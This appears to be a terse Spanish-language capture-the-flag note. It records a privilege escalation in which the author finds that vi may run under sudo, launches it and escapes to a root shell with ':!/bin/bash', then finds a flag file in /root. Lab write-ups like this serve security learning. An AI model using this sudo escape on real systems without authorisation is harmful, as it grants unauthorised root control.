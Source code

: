Ssh

Sudo -l

Puedo usar vi como su

sudo /usr/bin/vi

:!/bin/bash

soy root

find / 

veo /root/.flags.txt/
![](imágenes/Pasted%20Image%2020241030023713.png)
